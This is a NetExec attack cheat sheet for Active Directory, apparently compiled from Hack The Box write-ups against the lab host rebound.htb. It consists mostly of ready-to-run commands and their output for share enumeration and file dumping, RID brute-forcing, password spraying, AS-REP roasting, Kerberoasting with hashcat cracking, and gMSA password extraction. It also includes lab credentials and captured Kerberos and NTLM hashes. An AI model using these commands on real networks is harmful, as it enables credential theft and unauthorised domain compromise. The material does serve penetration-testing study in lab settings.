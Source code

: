 ## # `Installation & Wiki` -

```bash
sudo apt install pipx git
pipx ensurepath
pipx install git+https://github.com/Pennyw0rth/NetExec
```

[Netexec](https://github.com/Pennyw0rth/NetExec)

[netexec.wiki](https://www.netexec.wiki/)

## # `SMB` -

- <mark style="background: #3D7EFFA6;">Host Enumeration</mark> :

```bash
oxdf@hacky$ netexec smb 10.10.11.231
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
```

- <mark style="background: #FFB86CA6;">Authentication</mark> :

```bash
oxdf@hacky$ netexec smb rebound.htb -u ldap_monitor -p '1GR8t@$$4u' 
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [+] rebound.htb\ldap_monitor:1GR8t@$$4u 
```

---

- <mark style="background: #07E997A6;">Listing Shares with null authentication</mark> :

```bash
oxdf@hacky$ netexec smb 10.10.11.231 -u guest -p '' --shares
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [+] rebound.htb\guest: 
SMB         10.10.11.231    445    DC01             [*] Enumerated shares
SMB         10.10.11.231    445    DC01             Share           Permissions     Remark
SMB         10.10.11.231    445    DC01             -----           -----------     ------
SMB         10.10.11.231    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.231    445    DC01             C$                              Default share
SMB         10.10.11.231    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.231    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.11.231    445    DC01             Shared          READ            
SMB         10.10.11.231    445    DC01             SYSVOL                          Logon server share
```


- <mark style="background: #D2B3FFA6;">List and dump all files from all readable shares</mark> :

```bash
oxdf@hacky$ netexec smb 10.10.11.231 -u guest -p '' -M spider_plus
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [+] rebound.htb\guest: 
SPIDER_P... 10.10.11.231    445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_P... 10.10.11.231    445    DC01             [*]  DOWNLOAD_FLAG: False
SPIDER_P... 10.10.11.231    445    DC01             [*]     STATS_FLAG: True
SPIDER_P... 10.10.11.231    445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_P... 10.10.11.231    445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_P... 10.10.11.231    445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_P... 10.10.11.231    445    DC01             [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.10.11.231    445    DC01             [*] Enumerated shares
SMB         10.10.11.231    445    DC01             Share           Permissions     Remark
SMB         10.10.11.231    445    DC01             -----           -----------     ------
SMB         10.10.11.231    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.231    445    DC01             C$                              Default share
SMB         10.10.11.231    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.231    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.11.231    445    DC01             Shared          READ            
SMB         10.10.11.231    445    DC01             SYSVOL                          Logon server share 
SPIDER_P... 10.10.11.231    445    DC01             [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.10.11.231.json".
SPIDER_P... 10.10.11.231    445    DC01             [*] SMB Shares:           6 (ADMIN$, C$, IPC$, NETLOGON, Shared, SYSVOL)
SPIDER_P... 10.10.11.231    445    DC01             [*] SMB Readable Shares:  2 (IPC$, Shared)
SPIDER_P... 10.10.11.231    445    DC01             [*] SMB Filtered Shares:  1
```

- <mark style="background: #E632B3A6;">Dumping All Files</mark> :

```bash
nxc smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
```

---

- <mark style="background: #07E997A6;">Enumerate users by bruteforcing the RID on the remote target</mark> :

```bash
oxdf@hacky$ netexec smb 10.10.11.231 -u guest -p '' --rid-brute
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [+] rebound.htb\guest: 
SMB         10.10.11.231    445    DC01             498: rebound\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             500: rebound\Administrator (SidTypeUser)
SMB         10.10.11.231    445    DC01             501: rebound\Guest (SidTypeUser)
SMB         10.10.11.231    445    DC01             502: rebound\krbtgt (SidTypeUser)
SMB         10.10.11.231    445    DC01             512: rebound\Domain Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             513: rebound\Domain Users (SidTypeGroup)
SMB         10.10.11.231    445    DC01             514: rebound\Domain Guests (SidTypeGroup)
```

By default, typical RID cycle attacks go up to RID 4000.For more you can use `--rid-brute 10000` as option.

---

## # `Winrm` -

- <mark style="background: #3D7EFFA6;">Authentication</mark> :

```bash
oxdf@hacky$ netexec winrm rebound.htb -u ldap_monitor -p '1GR8t@$$4u' 
WINRM       10.10.11.231    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
WINRM       10.10.11.231    5985   DC01             [-] rebound.htb\ldap_monitor:1GR8t@$$4u
```

---

## # `LDAP` -

- <mark style="background: #3D7EFFA6;">Authentication</mark> :

```bash
oxdf@hacky$ netexec ldap rebound.htb -u ldap_monitor -p '1GR8t@$$4u'
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.231    445    DC01             [-] rebound.htb\ldap_monitor:1GR8t@$$4u
```

- <mark style="background: #FFB86CA6;">Using Kerberos</mark> :

```bash
oxdf@hacky$ netexec ldap rebound.htb -u ldap_monitor -p '1GR8t@$$4u' -k
SMB         rebound.htb     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAPS       rebound.htb     636    DC01             [+] rebound.htb\ldap_monitor
```

---

## # `Password Spray` -

- <mark style="background: #3D7EFFA6;">Simple Password Spray</mark> :

```bash
oxdf@hacky$ nxc wmi 192.168.1.0/24 -u userfile -p passwordfile
```

By default nxc will exit after a successful login is found.

- <mark style="background: #FFB86CA6;">Password spraying (without bruteforce)</mark> :

```bash
oxdf@hacky$ nxc wmi 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

- <mark style="background: #D2B3FFA6;">Keep going even after it found one successful login</mark> :

```bash
oxdf@hacky$ netexec smb rebound.htb -u users -p '1GR8t@$$4u' --continue-on-success
```

Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.

---

## # `ASREPRoast` -

Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required.

<mark style="background: #3D7EFFA6;">Without authentication</mark> :

```bash
oxdf@hacky$ netexec ldap 10.10.11.231 -u users -p '' --asreproast asrephashes.txt
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.231    445    DC01             $krb5asrep$23$jjones@REBOUND.HTB:878af35ccf86b307eeddf59caca892d0$1157eef31c59fa390193a36b8bd8fd1d82a61e3fd7d2a98b1cd96f367560cb8700223e8030bfc0c516c1e206f06d820c7ac1999303a00086701f208278a9539732375c79e695d240dad1b0095e17843dce414b027193697e5e4fdd5f58a6ca9fe2c9fe26fe7fbff034d4ad5c8e4fb1b4fe3b5cbfb6b2d719fa6c99c4fc5a0c8740779cda6c124ee7810a3b14be4b829057f8740218b746fd3ebb572852225f8845d883b3c3f3065206ac29b60b457e4c1e7d90c533e7144f38c2feabcb783e4e9b808f9485328feb46f1b6ae164ef68de2c6dee9d89b77d0e398b36d828b1fe3a6104c336412095cb1bc
```

<mark style="background: #FFB86CA6;">With authentication</mark> :

If you have one valid credential on the domain, you can retrieve all the users and hashes where the Kerberos pre-authentication is not required :

```bash
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

Cracking with hashcat :

```bash
hashcat -m18200 output.txt wordlist
```


---

## # `Kerberoasting` -

Retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting.

```bash
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```

Cracking with hashcat :

```bash
hashcat -m13100 output.txt wordlist.txt
```

---

## # `Dump gMSA` -

Using the protocol LDAP you can extract the password of a gMSA account if you have the right :

```bash
oxdf@hacky$ netexec ldap rebound.htb -u tbrady -p 543BOMBOMBUNmanda -k --gmsa
SMB         rebound.htb     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAP        rebound.htb     636    DC01             [+] rebound.htb\tbrady:543BOMBOMBUNmanda 
LDAP        rebound.htb     636    DC01             [*] Getting GMSA Passwords
LDAP        rebound.htb     636    DC01             Account: delegator$           NTLM: e1630b0e18242439a50e9d8b5f5b7524
```

---

